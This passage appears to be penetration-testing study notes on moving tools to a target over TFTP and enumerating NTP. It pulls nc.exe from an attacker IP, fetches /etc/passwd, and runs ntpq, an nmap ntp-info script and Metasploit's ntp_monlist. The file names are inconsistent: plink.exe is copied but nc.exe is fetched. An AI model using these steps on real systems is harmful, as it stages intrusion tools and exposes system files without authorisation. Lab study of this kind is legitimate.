 Start a tftp server on port 69 and serve files outside of the /tftp folder

{% highlight PowerShell %}
atftpd --daemon --port 69 /tftp
{% endhighlight %}

Copy plink.exe (a windows ssh tool) to the tftp folder

{% highlight PowerShell %}
cp /usr/share/windows-binaries/plink.exe /tftp/
{% endhighlight %}

On the target machine, pull the file via

{% highlight PowerShell %}
tftp -i 10.11.0.233 GET nc.exe
{% endhighlight %}

obtain a list of users:

{% highlight PowerShell %}
get /etc/passwd
{% endhighlight %}

Quit tftp

{% highlight PowerShell %}
quit
{% endhighlight %}

cat passwd ***REMEMBER NOT TO CAT /etc/passwd*** DUMASS!

# NTP

ntpq is used to monitor NTP daemon ntpd operations and determine performance.

Using the `p` switch print a list of the peers as well as a summary of their state.

{% highlight PowerShell %}
ntpq -p <ip>
{% endhighlight %}

Using the `c` switch to send a command. (`rv` Display the specified system or peer variables.)

{% highlight PowerShell %}
ntpq -c rv <ip>
{% endhighlight %}

Nmap

{% highlight PowerShell %}
nmap -sU -p 123 --script ntp-info <target>
{% endhighlight %}

Metasploit

{% highlight PowerShell %}
use auxiliary/scanner/ntp/ntp_monlist
{% endhighlight %}
